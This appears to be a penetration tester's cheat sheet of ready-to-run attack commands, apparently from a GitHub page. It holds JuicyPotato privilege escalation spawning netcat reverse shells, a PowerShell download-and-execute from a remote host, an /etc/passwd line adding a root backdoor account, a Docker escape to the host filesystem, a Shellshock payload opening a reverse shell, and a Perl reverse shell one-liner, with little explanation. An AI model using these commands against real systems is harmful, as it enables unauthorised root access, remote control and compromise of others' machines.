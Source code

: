 ## juicyPotato
```c
C:\Users\Public\Documents\JP.exe -t * -p c:\windows\system32\cmd.exe -l 1595 -a "/c 
c:\users\public\desktop\n.exe -e cmd.exe 10.10.10.1 443"

jp.exe -t *  -p C:\windows\system32\cmd.exe -l 5338 -a "/c c:\inetpub\drupal-7.5.4\nc64.exe -e cmd.exe 10.10.10.1 443" -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}

jp.exe -t *  -p C:\windows\system32\cmd.exe -l 5338 -a "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.10.2:8000/Invoke-PowerShellTcp.ps1')"
```

## etc/passwd
is etc passwd writable? then add this: 
```c
spool:zdJ3ArwLjHIcs:0:0:root:/root:/bin/bash		// kekmagic
```

## docker privesc
```
docker run -it -v /:/mnt alpine chroot /mnt
```

## VNC viewer
```c
vncviewer 10.10.10.1 
F8			// press to send commands like ctrl + alt + del
```

## shellshock
```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.2/8081 0>&1' http://10.10.10.1/cgi-bin/user.sh
```

## heartbleed 
```c
sslyze --heartbleed 10.10.10.1		# check heartbleed
```

## finger
```c
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.1
```

## perl reverse shell
```sh
perl -e 'use Socket;$i="10.10.10.1";$p=8089;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
